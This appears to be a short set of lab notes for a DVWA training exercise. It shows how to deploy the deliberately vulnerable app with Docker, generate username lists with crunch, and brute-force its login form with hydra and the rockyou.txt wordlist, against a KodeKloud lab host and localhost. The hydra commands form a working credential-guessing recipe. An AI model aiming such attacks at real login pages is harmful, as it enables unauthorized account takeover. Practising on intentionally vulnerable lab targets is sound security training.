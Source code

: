 https://techbeatz.co.uk/cyber-security/dvwa-task-1-brute-force-using-hydra-developer-tools/

```
git clone https://github.com/jon94/dvwa-dd.git
```

Replace DD API KEY

```
docker compose up -d --force-recreate --no-deps --build
```

Login to wherever it is hosted in kodekloud to obtain the URL as well as the PHP SessID. These are needed for the bruteforce.

cd to /Tools/wordlists/

Generate username using crunch
- Generate between 5 - 8 letters from letters been a-n and output in usernames.txt
```
crunch 5 8 abcdefghijklmn -o usernames.txt
```
For password, we will use rockyou.txt as list

```
hydra -f -S -l admin -P rockyou.txt 4280-port-708f1b5f85a94714.labs.kodekloud.com http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:F=Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=ebd3c9ed3e7f420323aaa061b3431fb4"
```

For local docker compose

```
hydra -f -s 4280 -l admin -P rockyou.txt localhost http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:H=Cookie: security=low; PHPSESSID=1de6c52c71ea064025e336c8124aa8e5:F=Username and/or password incorrect."
```
